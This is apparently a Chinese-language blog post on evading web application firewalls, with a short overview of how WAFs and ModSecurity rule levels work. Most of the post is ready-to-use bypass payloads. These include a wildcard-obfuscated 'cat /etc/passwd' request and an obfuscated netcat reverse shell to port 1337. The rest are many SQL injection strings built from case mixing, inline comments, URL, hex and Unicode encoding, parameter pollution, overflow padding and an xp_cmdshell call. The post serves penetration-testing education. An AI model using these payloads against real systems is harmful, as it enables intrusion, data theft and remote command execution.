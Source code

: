 ```yaml
---
layout: post
title:  "网络安全－WAF绕过"
categories: 网络安全
tags: 网络安全 WAF绕过
author: xueyp
description: WAF绕过常用技巧
---
```


WAF工作方式
============

- 协议异常检测：拒绝不符合HTTP标准的请求
- 增强的输入验证：代理和服务器端验证，而不仅仅是客户端验证
- 白名单和黑名单
- 基于规则和基于异常的保护：基于规则的更依赖黑名单机制，基于异常则更灵活
- 状态管理：关注会话保护还有：Cookie保护，反入侵规避技术，响应监控和信息披露保护

WAF绕过
============
- **通配符**

　　Bash标准通配符（也称为通配符模式）被各种命令行程序用于处理多个文件。有关标准通配符的更多信息可通过键入man 7 glob命令查看手册了解。

　　有很多bash语法是可以使用问号“？”，正斜杠“/”，数字和字母来执行系统命令的。甚至可以使用相同数量的字符获取文件内容。例如：

ls命令可以通过以下语法代替执行：
```
/???/?s
```

　　用这种语法，可以做许多事情。例如你的攻击目标位于Web应用放火墙后，并且在其规则内配置了一条，用于阻止所有在GET或POST请求参数内包含/etc/passwd或/bin/ls的规则，那么此时/?cmd=cat+/etc/passwd这样的请求，就会被目标WAF拦截。但是如果目标WAF没对？和/这类的字符进行阻止，那么就可以将请求编码成这样：/?cmd=%2f???%2f??t%20%2f???%2fp??s??

　　问号通配符只能代表一个字符，可以是任何字符。因此，如果知道一个文件名的一部分，但不是一个字母，那么可以使用这个通配符。例如ls *.???将列出当前目录中，具有3个字符长度的所有文件。诸如.gif，.jpg，.txt之类扩展名的文件。

　　使用该通配符，可以使用netcat来执行一个反向shell。假设需要在端口1337执行一个反向shell到127.0.0.1（通常是nc -e /bin/bash 127.0.0.1 1337）：
```
/???/n? -e /???/b??h 2130706433 1337
```


- **OWASP ModSecurity 核心规则集**

－　**PL1~PL4**

　　以下注释很好的概述了每个级别在“REQUEST PROTOCOL ENFORCEMENT”规则上的工作原理。可以看到PL1，一个查询字符串只能包含1-255范围内的ASCII字符，直到PL4在非常小的范围内阻止所有不是ASCII的字符。
```
# -=[ Targets and ASCII Ranges ]=-
#
# 920270: PL1
# REQUEST_URI, REQUEST_HEADERS, ARGS and ARGS_NAMES
# ASCII: 1-255
# Example: Full ASCII range without null character
#
# 920271: PL2
# REQUEST_URI, REQUEST_HEADERS, ARGS and ARGS_NAMES
# ASCII: 9,10,13,32-126,128-255
# Example: Full visible ASCII range, tab, newline
#
# 920272: PL3
# REQUEST_URI, REQUEST_HEADERS, ARGS, ARGS_NAMES, REQUEST_BODY
# ASCII: 32-36,38-126
# Example: Visible lower ASCII range without percent symbol
#
# 920273: PL4
# ARGS, ARGS_NAMES and REQUEST_BODY
# ASCII: 38,44-46,48-58,61,65-90,95,97-122
# Example: A-Z a-z 0-9 = - _ . , : &
#
# 920274: PL4
# REQUEST_HEADERS without User-Agent, Referer, Cookie
# ASCII: 32,34,38,42-59,61,65-90,95,97-122
# Example: A-Z a-z 0-9 = - _ . , : & " * + / SPACE
```

- **SQL注入绕过WAF**

1 当我们在目标URL进行SQL注入测试时，可以通过修改注入语句中字母的大小写来触发WAF保护情况。如果WAF使用区分大小写的黑名单，则更改大小写可能会帮我们成功绕过WAF的过滤。
```
http://target.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4
```

2 关键字替换（在关键字中间可插入将会被WAF过滤的字符） – 例如SELECT可插入变成SEL<ECT，一旦插入字符被过滤，它将作为SELECT传递。
```
http://target.com/index.php?page_id=-15&nbsp;UNIunionON SELselectECT 1,2,3,4
```

3 编码

+ URL encode
```
page.php?id=1%252f%252a*/UNION%252f%252a /SELECT
```
+ Hex encode
```
target.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4…
　　　SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))
```
+ Unicode encode
```
?id=10%D6‘%20AND%201=2%23　　
　　　SELECT 'Ä'='A'; #1
```

4 使用注释

　　在攻击字符串中插入注释。例如，/*!SELECT*/ 这样WAF可能就会忽略该字符串，但它仍会被传递给目标应用程序并交由mysql数据库处理。
```
index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4　　　
　　　'union%a0select pass from users#
index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3
　　　?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4…
```

5 某些函数或命令，因为WAF的过滤机制导致我们无法使用。那么，我们也可以尝试用一些等价函数来替代它们。
```
hex()、bin() ==> ascii()
sleep() ==>benchmark()
concat_ws()==>group_concat()
 substr((select 'password'),1,1) = 0x70
　　　strcmp(left('password',1), 0x69) = 1
　　   strcmp(left('password',1), 0x70) = 0
　　　strcmp(left('password',1), 0x71) = -1
mid()、substr() ==> substring()
@@user ==> user()
@@datadir ==> datadir()
```

6 使用特殊符号

　　这里我把非字母数字的字符都规在了特殊符号一类，特殊符号有特殊的含义和用法。
```
+ ` symbol: select `version()`;
+ +- :select+id-1+1.from users;
+ @:select@^1.from users;
+Mysql function() as xxx
+`、~、!、@、%、()、[]、.、-、+ 、|、%00
```
　　示例
```
‘se’+’lec’+’t’
　　　　　　%S%E%L%E%C%T 1
　　　　　　1.aspx?id=1;EXEC(‘ma’+'ster..x’+'p_cm’+'dsh’+'ell ”net user”’)
' or --+2=- -!!!'2
 　　　 id=1+(UnI)(oN)+(SeL)(EcT)
```

7 HTTP参数控制

　　通过提供多个参数=相同名称的值集来混淆WAF。例如 http://example.com?id=1&?id=’ or ‘1’=’1′ — ‘在某些情况下（例如使用Apache/PHP），应用程序将仅解析最后（第二个） id= 而WAF只解析第一个。在应用程序看来这似乎是一个合法的请求，因此应用程序会接收并处理这些恶意输入。如今，大多数的WAF都不会受到HTTP参数污染（HPP）的影响，但仍然值得一试。

+ HPP（HTTP Parameter Polution)）
```
/?id=1;select+1,2,3+from+users+where+id=1—
　　　/?id=1;select+1&amp;id=2,3+from+users+where+id=1—
　　　/?id=1/**/union/*&amp;id=*/select/*&amp;id=*/pwd/*&amp;id=*/from/*&amp;id=*/users
```
　　HPP又称做重复参数污染，最简单的就是?uid=1&uid=2&uid=3.

+ HPF (HTTP Parameter Fragment)

这种方法是HTTP分割注入，同CRLF有相似之处(使用控制字符%0a、%0d等执行换行)
```
/?a=1+union/*&amp;b=*/select+1,pass/*&amp;c=*/from+users--
　　select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users—
```

+ HPC (HTTP Parameter Contamination)

RFC2396定义了以下字符：
```
Unreserved: a-z, A-Z, 0-9 and _ . ! ~ * ' ()
Reserved : ; / ? : @ &amp; = + $ ,
Unwise : { } | \ ^ [ ] `
```
　　不同的Web服务器处理处理构造得特殊请求时有不同的逻辑.

8 缓冲区溢出

　　WAF和其他所有的应用程序一样也存在着各种缺陷和漏洞。如果出现缓冲区溢出的情况，那么WAF可能就会崩溃，即使不能代码执行那也会使WAF无法正常运行。这样，WAF的安全防护自然也就被瓦解了。
```
?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
```

9 整合绕过

　　当使用单一的方式无法绕过时，我们则可以灵活的将多种方式结合在一起尝试。
```
target.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4…
id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/+like+database()– -
?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e--
```

参考
============
[WAF bypass guide](http://www.securityidiots.com/Web-Pentest/WAF-Bypass/waf-bypass-guide-part-1.html)

[SQL Injection Bypassing WAF](https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF)

[SQL injection: 9 ways to bypass Web Application Firewall](https://www.digitalmunition.me/2018/02/sql-injection-9-ways-bypass-web-application-firewall/)


版权声明：本文为博主原创文章，转载请注明出处。 [旭日酒馆](https://xueyp.github.io/)
